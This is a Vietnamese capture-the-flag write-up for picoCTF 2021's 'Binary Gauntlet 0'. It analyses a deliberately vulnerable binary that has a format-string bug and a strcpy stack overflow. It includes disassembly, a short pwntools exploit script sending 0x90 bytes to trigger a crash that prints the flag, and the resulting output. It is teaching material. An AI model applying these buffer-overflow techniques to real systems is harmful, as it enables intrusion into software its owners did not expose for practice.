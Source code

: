 # Binary Gauntlet 0

## Kiểm tra file
### File
```bash
gauntlet: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=a5c4ce8cddd5ece25b706af8d250134c3f70467c, not stripped
```
### Checksec
```bash
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX disabled
PIE:      No PIE (0x400000)
RWX:      Has RWX segments
```
- Định dạng ELF 64-bit
- Not stripped -> Ta có thể dễ dàng tìm được các hàm trong chương trình
- No Stack Canary, no NX, no PIE, has RWX segments -> Easy BOF
## Decompile & Disassemble
### Decompile `main`
```c
undefined8 main(void)
{
  char local_88 [108];
  __gid_t local_1c;
  FILE *local_18;
  char *local_10;
  
  local_10 = (char *)malloc(1000);
  local_18 = fopen("flag.txt","r");
  if (local_18 == (FILE *)0x0) {
    puts(
        "Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are runningthis on the shell server."
        );
    exit(0);
  }
  fgets(flag,0x40,local_18);
  signal(0xb,sigsegv_handler);
  local_1c = getegid();
  setresgid(local_1c,local_1c,local_1c);
  fgets(local_10,1000,stdin);
  local_10[999] = '\0';
  printf(local_10);
  fflush(stdout);
  fgets(local_10,1000,stdin);
  local_10[999] = '\0';
  strcpy(local_88,local_10);
  return 0;
}
```
### Decompile `sigsegv_handler`
```C
void sigsegv_handler(void)
{
  fprintf(stderr,"%s\n",flag);
  fflush(stderr);               
  exit(1);
}
```
Hàm `sigsegv_handler` sẽ in ra flag. Khi hàm `signal` được gọi, nó sẽ thực thi `sigsegv_handler`. Vậy chỉ cần làm cho chương trình báo lỗi, ta sẽ có được flag.

Chương trình nhận vào 1 input rồi in input đó ra màn hình, sau đó nhận input thứ 2 rồi gọi hàm `strcpy`.
Có 2 lỗi ở hàm main:
1. `printf(local_10)` -> Lỗi chuỗi định dạng (Format String)
2. `strcpy(local_88, local_10)` -> `strcpy` không kiểm tra số lượng kí tự ở dest -> Tràn bộ đệm tại dest nếu không được cấp phát đủ vùng nhớ để chứa chuỗi src (Buffer Overflow)

Vậy bài này có 2 hướng khai thác, nhưng vì người viết chương trình đã tốt bụng tắt hết các cơ chế bảo vệ, chúng ta sẽ dùng cách gây tràn vùng nhớ biến local_88 vì nó được đặt trong stack, dễ dàng ghi đè return address và gây segmentation fault.
### Disassemble main
```asm
0x000000000040090d <+0>:	push   rbp
0x000000000040090e <+1>:	mov    rbp,rsp
0x0000000000400911 <+4>:	sub    rsp,0x90
0x0000000000400918 <+11>:	mov    DWORD PTR [rbp-0x84],edi
0x000000000040091e <+17>:	mov    QWORD PTR [rbp-0x90],rsi
0x0000000000400925 <+24>:	mov    edi,0x3e8
0x000000000040092a <+29>:	call   0x400790 <malloc@plt>
0x000000000040092f <+34>:	mov    QWORD PTR [rbp-0x8],rax
0x0000000000400933 <+38>:	lea    rsi,[rip+0x192]        # 0x400acc
0x000000000040093a <+45>:	lea    rdi,[rip+0x18d]        # 0x400ace
0x0000000000400941 <+52>:	call   0x4007c0 <fopen@plt>
0x0000000000400946 <+57>:	mov    QWORD PTR [rbp-0x10],rax
0x000000000040094a <+61>:	cmp    QWORD PTR [rbp-0x10],0x0
0x000000000040094f <+66>:	jne    0x400967 <main+90>
0x0000000000400951 <+68>:	lea    rdi,[rip+0x180]        # 0x400ad8
0x0000000000400958 <+75>:	call   0x400730 <puts@plt>
0x000000000040095d <+80>:	mov    edi,0x0
0x0000000000400962 <+85>:	call   0x4007d0 <exit@plt>
0x0000000000400967 <+90>:	mov    rax,QWORD PTR [rbp-0x10]
0x000000000040096b <+94>:	mov    rdx,rax
0x000000000040096e <+97>:	mov    esi,0x40
0x0000000000400973 <+102>:	lea    rdi,[rip+0x200766]        # 0x6010e0 <flag>
0x000000000040097a <+109>:	call   0x400760 <fgets@plt>
0x000000000040097f <+114>:	lea    rsi,[rip+0xffffffffffffff41]        # 0x4008c7 <sigsegv_handler>
0x0000000000400986 <+121>:	mov    edi,0xb
0x000000000040098b <+126>:	call   0x400770 <signal@plt>
0x0000000000400990 <+131>:	mov    eax,0x0
0x0000000000400995 <+136>:	call   0x4007b0 <getegid@plt>
0x000000000040099a <+141>:	mov    DWORD PTR [rbp-0x14],eax
0x000000000040099d <+144>:	mov    edx,DWORD PTR [rbp-0x14]
0x00000000004009a0 <+147>:	mov    ecx,DWORD PTR [rbp-0x14]
0x00000000004009a3 <+150>:	mov    eax,DWORD PTR [rbp-0x14]
0x00000000004009a6 <+153>:	mov    esi,ecx
0x00000000004009a8 <+155>:	mov    edi,eax
0x00000000004009aa <+157>:	mov    eax,0x0
0x00000000004009af <+162>:	call   0x400740 <setresgid@plt>
0x00000000004009b4 <+167>:	mov    rdx,QWORD PTR [rip+0x2006f5]        # 0x6010b0 <stdin@@GLIBC_2.2.5>
0x00000000004009bb <+174>:	mov    rax,QWORD PTR [rbp-0x8]
0x00000000004009bf <+178>:	mov    esi,0x3e8
0x00000000004009c4 <+183>:	mov    rdi,rax
0x00000000004009c7 <+186>:	call   0x400760 <fgets@plt>
0x00000000004009cc <+191>:	mov    rax,QWORD PTR [rbp-0x8]
0x00000000004009d0 <+195>:	add    rax,0x3e7
0x00000000004009d6 <+201>:	mov    BYTE PTR [rax],0x0
0x00000000004009d9 <+204>:	mov    rax,QWORD PTR [rbp-0x8]
0x00000000004009dd <+208>:	mov    rdi,rax
0x00000000004009e0 <+211>:	mov    eax,0x0
0x00000000004009e5 <+216>:	call   0x400750 <printf@plt>
0x00000000004009ea <+221>:	mov    rax,QWORD PTR [rip+0x2006af]        # 0x6010a0 <stdout@@GLIBC_2.2.5>
0x00000000004009f1 <+228>:	mov    rdi,rax
0x00000000004009f4 <+231>:	call   0x4007a0 <fflush@plt>
0x00000000004009f9 <+236>:	mov    rdx,QWORD PTR [rip+0x2006b0]        # 0x6010b0 <stdin@@GLIBC_2.2.5>
0x0000000000400a00 <+243>:	mov    rax,QWORD PTR [rbp-0x8]
0x0000000000400a04 <+247>:	mov    esi,0x3e8
0x0000000000400a09 <+252>:	mov    rdi,rax
0x0000000000400a0c <+255>:	call   0x400760 <fgets@plt>
0x0000000000400a11 <+260>:	mov    rax,QWORD PTR [rbp-0x8]
0x0000000000400a15 <+264>:	add    rax,0x3e7
0x0000000000400a1b <+270>:	mov    BYTE PTR [rax],0x0
0x0000000000400a1e <+273>:	mov    rdx,QWORD PTR [rbp-0x8]
0x0000000000400a22 <+277>:	lea    rax,[rbp-0x80]
0x0000000000400a26 <+281>:	mov    rsi,rdx
0x0000000000400a29 <+284>:	mov    rdi,rax
0x0000000000400a2c <+287>:	call   0x400720 <strcpy@plt>
0x0000000000400a31 <+292>:	mov    eax,0x0
0x0000000000400a36 <+297>:	leave  
0x0000000000400a37 <+298>:	ret    
```
Gọi hàm `strcpy`
```asm
0x0000000000400a1e <+273>:	mov    rdx,QWORD PTR [rbp-0x8]
0x0000000000400a22 <+277>:	lea    rax,[rbp-0x80]
0x0000000000400a26 <+281>:	mov    rsi,rdx
0x0000000000400a29 <+284>:	mov    rdi,rax
0x0000000000400a2c <+287>:	call   0x400720 <strcpy@plt>
```
Biến local_88 nằm ở [rbp - 0x80]. Chúng ta cần 0x90 bytes để ghi đè return address và gây `sigsegv`

## Exploit (Remote sẽ update sau vì mất port rồi :()
### flag.txt:
```txt
flag{pwn3d}
```
### exploit.py
```python
from pwn import *

context.binary = ELF("./gauntlet")

run = process("./gauntlet")
run.sendline("Pwned")
run.sendline('A' * 0x90)

run.interactive()
```
## Output
```bash
[*] '/home/revirven/Desktop/CTF/PicoCTF-2021/Binary-Gauntlet-0/gauntlet'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
[+] Starting local process './gauntlet': pid 12231
[*] Switching to interactive mode
[*] Process './gauntlet' stopped with exit code 1 (pid 12231)
Pwned
flag{pwn3d}

[*] Got EOF while reading in interactive
$  
```
